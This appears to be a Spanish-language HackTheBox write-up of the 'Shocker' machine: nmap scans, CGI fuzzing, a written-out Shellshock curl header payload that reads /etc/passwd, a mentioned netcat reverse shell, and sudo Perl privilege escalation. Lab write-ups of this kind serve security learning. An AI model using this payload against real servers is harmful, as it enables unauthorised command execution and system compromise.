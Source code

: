 ```yaml
---
title: "Shocker - HackTheBox"
layout: single
excerpt: Esta máquina me gusto mucho a pesar de su facilidad a la hora de completarla, su título te da el vector de ataque.
header:
show_date: true
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/69093629/124813522-42c79880-df65-11eb-8d32-56d4e415795d.png"
  teaser_home_page: true
  icon: "https://user-images.githubusercontent.com/69093629/124813522-42c79880-df65-11eb-8d32-56d4e415795d.png"
categories:
  - HackTheBox
tags:
  - shellshock
  - perl
---
```


<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/124813522-42c79880-df65-11eb-8d32-56d4e415795d.png">
</p>

Comence efecutando un escaneo con `Nmap` para identificar los puertos abiertos de la maquina.

```bash 
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ nmap -sS --min-rate=5000 -v -Pn -n 10.10.10.56 -oG allPorts 
Starting Nmap 7.80 ( https://nmap.org ) at 2021-07-03 15:48 CEST
Initiating SYN Stealth Scan at 15:48
Scanning 10.10.10.56 [1000 ports]
Discovered open port 80/tcp on 10.10.10.56
Discovered open port 2222/tcp on 10.10.10.56
Completed SYN Stealth Scan at 15:48, 0.47s elapsed (1000 total ports)
Nmap scan report for 10.10.10.56
Host is up (0.16s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.56 seconds
           Raw packets sent: 1038 (45.672KB) | Rcvd: 1018 (40.728KB)
```

Tambien hice otro escaneo para verificar la version y servicio de cada puerto abierto.

```bash
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ nmap -sC -sV -p80,2222 10.10.10.56 -oN targeted            
Starting Nmap 7.80 ( https://nmap.org ) at 2021-07-03 15:48 CEST
Nmap scan report for 10.10.10.56
Host is up (0.047s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.31 seconds
```

Al parecer solo tenía dos puertos, empece por el servidor web, poco podía hacer en el servicio SSH, se veía esto.

![primera (1)](https://user-images.githubusercontent.com/69093629/124386681-d5ed9d80-dcdb-11eb-93dd-7f6951fceb66.png)

No encontré nada, por lo que recurrí a hacer un "fuzzing" con  `WZFuzz`.

![miherramienta](https://user-images.githubusercontent.com/69093629/124386715-f74e8980-dcdb-11eb-8ffb-9591b5ab20c7.png)

Encontré un `/cgi-bin/`, esto parecía un `shellshock` en toda regla, fuzze con `wfuzz`, para ver si podía encontrar un script en bash.

![fuzzer](https://user-images.githubusercontent.com/69093629/124386763-35e44400-dcdc-11eb-9387-501de5ea0565.png)

Y si, encontré un script llamado `user.sh`, para confirmar que era un `shellshock` hice uso del script [exploit-deface.sh](https://raw.githubusercontent.com/opsxcq/exploit-CVE-2014-6271/master/exploit-deface.sh) y efectivamente era vulnerable a `shellshock`, ejecute el siguiente comando enviando una petición por GET por `curl` para ver si me devolvía el  `/etc/hosts`.

```bash
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ curl http://10.10.10.56/cgi-bin/user.sh -H "custom:() { ignored; }; echo Content-Type: text/html; echo ; /bin/cat /etc/passwd"
```

Si, me devolvió el contenido del  `/etc/hosts`, ahora solo faltaba acceder a la máquina, me entable una reverse Shell por "netcat" por el puerto `443` y accedí.

![ypadentro](https://user-images.githubusercontent.com/69093629/124386921-ee11ec80-dcdc-11eb-97b5-e2650c100612.png)

Ahora solo faltaba la escalada de privilegios, para ello hice  `sudo -l`, vi que podía ejecutar Perl con privilegios `root`, me dirigí a [gftobing](https://gtfobins.github.io/) para ver si podía escalar privilegios de alguna manera con Perl, al parecer si podía.

![Captura de pantalla (650)](https://user-images.githubusercontent.com/69093629/124387071-6aa4cb00-dcdd-11eb-900c-dfa65fa1d770.png)

Ejecute el comando con `sudo` y me otorgo permisos de superusuario.

![ypadentro2](https://user-images.githubusercontent.com/69093629/124387098-81e3b880-dcdd-11eb-9d8d-657e81eafc75.png)

 
 
